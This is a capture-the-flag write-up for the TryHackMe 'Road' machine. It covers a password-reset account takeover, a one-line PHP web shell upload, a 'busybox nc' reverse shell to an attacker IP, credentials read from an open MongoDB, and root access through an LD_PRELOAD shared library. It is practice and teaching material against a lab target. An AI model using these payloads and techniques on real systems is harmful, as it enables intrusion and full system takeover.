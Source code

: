 # Road - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Admin Account TakeOver → Upload Web shell & Revese Shell → Discover `webdeveloper` password → Privilege Escalation via `LD_PRELOAD`
-----------------------------
## Target
- Machine: `road.thm`
- Data: `2025-10-3`
- Environment: TryHackMe / CTF
-----------------------------

## Steps
1. Initial scan:

```bash
nmap -sV -sC -Pn -T4 road.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

2. Directory discovery:

```bash
gobuster dir -u http://road.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40

/assets               (Status: 301) [Size: 313]
/index.html           (Status: 200) [Size: 19607]
/phpMyAdmin           (Status: 301) [Size: 317]
/server-status        (Status: 403) [Size: 277]
/v2                   (Status: 301) [Size: 309]
```

`v2` page showing login panel
I Created new account to discovery


In `profile` page:

![showing_the_admin_account](images/Admin_Account.png)

admin account :`admin@sky.thm`



3. Admin Account Takeover :

There was a password reset page at:
`http://road.thm/v2/ResetUser.php`
Using Burp Suite, I intercepted the POST request to the password reset functionality.

I modified the username in the POST request from the current user to `admin@sky.thm`

![ScreenShot-Burp](images/Account_Take.png)

The application allowed the password change for the admin account without proper authorization checks.

successfully logged in as `admin@sky.thm` using the new password set through the manipulated request.

4. Web Shell Upload

if we take a look at the source code of the `porfile.php` page we notice :
```html
<!-- /v2/profileimages/ -->
```
the loction of the directory that hold the profile images:
`http://road.thm/v2/profileimages/`

We can upload php files too. 

Uploaded `cmd.php` web shell containing:
```php
<?php system($_GET['cmd']); ?>
```
This allows remote command execution via the cmd parameter, enabling full system control through the web server.

Tested the web shell by accessing:
`http://road.thm/v2/profileimages/cmd.php?cmd=id`
![Web-Shell](images/cmd-test.png)

The command execution was successful, confirming remote code execution capability through the uploaded web shell.

5. Reverse Shell

Accessed the web shell to execute a reverse shell command:
`http://road.thm/v2/profileimages/cmd.php?cmd=busybox nc [YOUR_IP] 4444 -e bash `


Successful Connection & Shell Stabilization:
```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...


python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/var/www/html/v2/profileimages$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
Successfully obtained a reverse shell as `www-data` user, establishing initial access on the target system.

## User flag

Now we escalate to the `webdeveloper` user

Let's see what files belong to this user: 

```bash
www-data@sky:/var/www/html/phpMyAdmin$ find / -type f -user webdeveloper 2>/dev/null 
/home/webdeveloper/.bashrc
/home/webdeveloper/.mysql_history
/home/webdeveloper/.sudo_as_admin_successful
/home/webdeveloper/.bash_logout
/home/webdeveloper/.profile
/home/webdeveloper/user.txt
/usr/bin/mongoimport
/usr/bin/mongostat
/usr/bin/mongofiles
/usr/bin/mongorestore
/usr/bin/mongodump
/usr/bin/bsondump
/usr/bin/mongotop
/usr/bin/mongoexport
/usr/share/doc/mongodb-database-tools/README.md
/usr/share/doc/mongodb-database-tools/LICENSE.md
/usr/share/doc/mongodb-database-tools/THIRD-PARTY-NOTICES
```


We can access MongoDB without authentication:
```bash

mongo

>show dbs
> show dbs

admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB


> use backup
ususe backup
switched to db backup

> show tables
shshow tables
collection
user

> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "[REDACTED]!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }

> exit
```
We found `webdeveloper's` password in the MongoDB database: `[REDACTED]!@#`

Switch to the `webdeveloper` user and retrieve the user flag:

```bash
su webdeveloper
Password: [REDACTED]!@#

webdeveloper@sky:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Root flag

Privilege Escalation

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$ ls -la /usr/bin/sky_backup_utility
-rwxr-xr-x 1 root root 16704 Aug  7  2021 /usr/bin/sky_backup_utility
```
The user can run /usr/bin/sky_backup_utility as root with `LD_PRELOAD` environment variable preserved, allowing library injection attacks.

### SUID PATH Environmental Variable :

We create a malicious shared library that contains code executed automatically when loaded via `LD_PRELOAD`:

1. Create Malicious Shared Library :

```bash
cat > shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
```

2. Compile the Library :

```bash
gcc -fPIC -shared -nostartfiles -o shell.so shell.c
```
3. Execute the Exploit :

```bash

sudo LD_PRELOAD=./shell.so /usr/bin/sky_backup_utility

id

# uid=0(root) gid=0(root) groups=0(root)
```
4. root.txt

```bash
cat /root/root.txt 

# [REDACTED]


```
